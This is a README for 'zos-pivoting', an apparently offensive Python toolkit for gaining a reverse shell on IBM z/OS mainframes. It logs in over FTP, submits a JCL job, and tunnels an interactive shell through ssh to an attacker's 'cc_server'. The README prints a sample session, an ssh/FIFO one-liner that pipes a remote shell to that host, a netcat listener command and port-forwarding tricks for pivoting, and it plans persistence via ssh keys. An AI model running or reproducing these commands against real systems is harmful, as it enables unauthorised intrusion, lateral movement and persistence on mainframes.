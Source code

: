 # zos-pivoting

Library set to get a secure reverse shell by submitting a JCL job via FTP on z/OS.

```
$ python ftp2shell.py config.ini
Input the password for zuser on target.mainframe.net:

Save the pulic key below in ~ccserveraccount/.ssh/authorized_keys

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+og7UDXjtluvauvB3Uo7eFqYGTDYlptkd[...]

Press Enter to continue...
mf.bigiron.local> uname
OS/390
mf.bigiron.local> exit
This will terminate the connection to mf.bigiron.local, are you sure? (y/N) y
```

The library contains:

 * `config.ini` a sample configuration file
 * `ftp2shell.py` the main script, it uses the config file and the next items
 * `reverseshellmanager.py` uses `stdiotranscoder.py` in zosutils to get a nice interactive shell via netcat or other
 * `zosutils/stdiotranscoder.py` wraps the stdin/stdout of a command and performs transparent re-encoding (EBCDIC to UTF8 or other encodings supported by python). In other words: makes nc/ncat support EBCDIC and other character encoding systems
 * `zosutils/zosftp.py` talks FTP and uses the extra features of the FTP server in z/OS
 * `sshutils/ssh_utils.py` generation and management of ssh keys and fingerprinting

The python files in the root of the project exhibit a lower coding quality than the others.

## Design
This project uses the new ssh stdin and stout redirection to get a fully interactive reverse shell on a mainframe.

Here is an example:

```
ssh -i $KEYNAME $CCU@$CCS -p $CCP -o UserKnownHostsFile=$KNOWNHOSTSFILE -o StrictHostKeyChecking=yes -N \
-W $NCIP:$NCP < $FIFONAME | sh -s > $FIFONAME 2>&1 & echo $STARTSEND > $FIFONAME'
```

SSH tunnels stdin and stdout, piping to a shell.
A FIFO file contains all the inputs and outputs to and from the shell.
Please note how awesome the strong host fingerprint checking and the key-based authentication are.

The same principle can be applied to other systems running ssh.

You have to do the cleanup by yourself.

Python >= 3.7 only.

## Requirements
You have to create a user in your machine to get the reverse connection on your `cc_server` (see the config file).
The user does not need an interactive shell.

## Dependencies
Python >= 3.7.

You can install the [ebcdic](https://pypi.org/project/ebcdic/) package to support more character encodings.

The default EBCDIC support in Python 3 should be enough most of the time.

## Usage:
 * Edit `config.ini`
 * Run `python ftp2shell.py config.ini`. The script will:
    - connect to the mainframe via FTP
    - generate and run a JCL batch
    - start a ssh connection against `cc_server` and start a tunneled clear-text shell
    - start the shell management
 * The resulting shell is a nearly full-featured SH shell.
The ssh tunnelling protects the shell.
 * There is a custom `_runssh` command which can be used to run further ssh commands.
Think port forwarding and that goodness.
For example, to get access to TN3270 on your localhost run:
```
mainframe> _runssh -R 2222:localhost:23
```
And then connect to localhost:2222.

## Testing
You can run the stdio wrapper and the reverse shell manager from the commandline.
There are also testing scripts.

### Example:
From a terminal run:
```
python reverseshellmanager.py cmd nc -l -p 1234
```
And on another one run:
```
bash testing/synch_shell.sh
```
Enjoy your local shell.

## Future Steps
* Automate the pivoting by parsing the output of netstat/NETSTAT and:
    - ssh -R
    - ssh -L
    - starting a local sshd
* Automatic APF library enumeration (?)
* Persistence via ssh keys (?)
* Port to other systems

## Can't do on z/OS
* Cannot automate running custom sshd server:
    * sshd has no run permissions for users by default
    * copying the binary to another path will not work, as a daemon need to be marked as `program controlled`

